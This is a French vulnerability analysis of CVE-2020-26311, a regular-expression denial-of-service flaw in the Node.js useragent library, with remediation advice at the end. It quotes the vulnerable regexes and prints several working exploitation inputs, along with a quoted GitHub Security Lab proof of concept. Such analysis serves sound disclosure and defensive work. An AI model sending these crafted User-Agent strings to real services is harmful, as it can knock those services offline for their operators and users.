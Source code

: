 ```yaml
---
description: 20 Nov 2024
---
```


# CVE-2020-26311

> Voici une analyse de la vulnérabilité **CVE-2020-26311** de type Regular expression Denial of Server (ReDoS) affectant la librairie useragent ([https://github.com/3rd-Eden/useragent](https://github.com/3rd-Eden/useragent)).

## Description

* **Vendeur :** N/A
* **Produit :** useragent ([https://github.com/3rd-Eden/useragent](https://github.com/3rd-Eden/useragent))
* **Version(s) impactée(s) :** \*
* **Type de vulnérabilité :** Regular expression Denial of Service (ReDoS) ([CWE-1333 - Inefficient Regular Expression Complexity](https://cwe.mitre.org/data/definitions/1333.html))

Toutes les versions (la dernière version est la 2.3.0) de useragent sont vulnérables à une faille de type ReDoS lors du parsing du User-Agent.

<figure><img src="../../.gitbook/assets/image (340).png" alt=""><figcaption></figcaption></figure>

## Analyse de la vulnérabilité

Le parsing du User-Agent permet d'extraire des informations telles que le nom du user-agent, sa version, ou celle du système d'exploitation, en s'appuyant sur des expressions régulières :&#x20;

{% code lineNumbers="true" %}
```javascript
const useragent = require('useragent');
const sampleUserAgent = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36";
const agent = useragent.parse(sampleUserAgent);

console.log("Navigateur:", agent.family);
console.log("Version du navigateur:", agent.toVersion());
console.log("Système d'exploitation:", agent.os.family);
console.log("Version OS:", agent.os.toVersion());
```
{% endcode %}

```
Navigateur: Chrome
Version du navigateur: 130.0.0
Système d'exploitation: Windows
Version OS: 10.0.0
```

Ces très nombreuses (c'est-à-dire un peu moins de 1000) expressions régulières sont présentes dans le fichier `regexps.js` du dossier `lib` :&#x20;

{% code lineNumbers="true" %}
```javascript
var parser;

exports.browser = Object.create(null);

parser = Object.create(null);
parser[0] = new RegExp("(Rival IQ, rivaliq.com)");
...
parser[0] = new RegExp("(ESPN)[%20| ]+Radio/(\\d+)\\.(\\d+)\\.(\\d+) CFNetwork");
...
parser[0] = new RegExp("(Antenna)/(\\d+) CFNetwork");
...
parser[0] = new RegExp("(TopPodcasts)Pro/(\\d+) CFNetwork");
...
parser[0] = new RegExp("(MusicDownloader)Lite/(\\d+)\\.(\\d+)\\.(\\d+) CFNetwork");
...
```
{% endcode %}

Malheureusement, certaines de ces expressions régulières sont vulnérables aux attaques ReDoS, ce qui peut entraîner une interruption du service. En voici quelques-unes que j'ai identifiées :&#x20;

```javascript
// Ligne 187 du fichier regexps.js
new RegExp("Google.*/\\+/web/snippet");

// Exploitation
const useragent = require('useragent');
const sampleUserAgent = 'Google'.repeat(1000);
const agent = useragent.parse(sampleUserAgent);
```

```javascript
// Ligne 215 du fichier regexps.js
new RegExp("/((?:Ant-|)Nutch|[A-z]+[Bb]ot|[A-z]+[Ss]pider|Axtaris|fetchurl|Isara|ShopSalad|Tailsweep)[ \\-](\\d+)(?:\\.(\\d+)|)(?:\\.(\\d+)|)");

// Exploitation
const useragent = require('useragent');
const sampleUserAgent = 'NANA'.repeat(2000) + '0';
const agent = useragent.parse(sampleUserAgent);
```

```javascript
// Ligne 348 du fichier regexps.js
new RegExp("Mozilla.*Mobile.*(Instagram).(\\d+)\\.(\\d+)\\.(\\d+)");

// Exploitation
const useragent = require('useragent');
const sampleUserAgent = 'MozillaMobilem'.repeat(250) + '\n';
const agent = useragent.parse(sampleUserAgent);
```

De plus, le ticket GitHub décrivant la vulnérabilité intègre également une preuve de concept ([https://securitylab.github.com/advisories/GHSL-2020-312-redos-useragent/](https://securitylab.github.com/advisories/GHSL-2020-312-redos-useragent/)) :&#x20;

```javascript
var useragent = require('useragent');

var attackString = "HbbTV/1.1.1CE-HTML/1.9;THOM	" + new Array(20).join("SW-Version/");
// A copy of the regular expression
var reg = /(HbbTV)\/1\.1\.1.*CE-HTML\/1\.\d;(Vendor\/)*(THOM[^;]*?)[;\s](?:.*SW-Version\/.*)*(LF[^;]+);?/;

var request = 'GET / HTTP/1.1\r\nUser-Agent: ' + attackString + '\r\n\r\n';
console.log(useragent.parse(request).device);
```

## Correction

La correction de ce type de vulnérabilités n'est pas toujours simple, car elle implique de modifier les expressions régulières vulnérables pour en réduire la complexité, tout en veillant à ce qu'elles continuent à détecter correctement le motif recherché.

Une première chose faisable lors de l'écriture d'une expression régulière, peut être d'utiliser un outil permettant d'en tester la sensibilité au ReDoS, tel que l'outil ReDoS checker ([https://devina.io/redos-checker](https://devina.io/redos-checker)) :&#x20;

<figure><img src="../../.gitbook/assets/image (342).png" alt=""><figcaption></figcaption></figure>

En général, l'exploitation d'une attaque ReDoS requiert une chaîne de caractères relativement longue, en particulier lorsqu'elle est de type polynomial. Une mesure de défense en profondeur consiste donc à limiter le nombre de caractères de la chaîne à tester.

## Ressources

* [https://nvd.nist.gov/vuln/detail/CVE-2020-26311](https://nvd.nist.gov/vuln/detail/CVE-2020-26311)
* [https://github.com/3rd-Eden/useragent](https://github.com/3rd-Eden/useragent)
* [https://securitylab.github.com/advisories/GHSL-2020-312-redos-useragent/](https://securitylab.github.com/advisories/GHSL-2020-312-redos-useragent/)
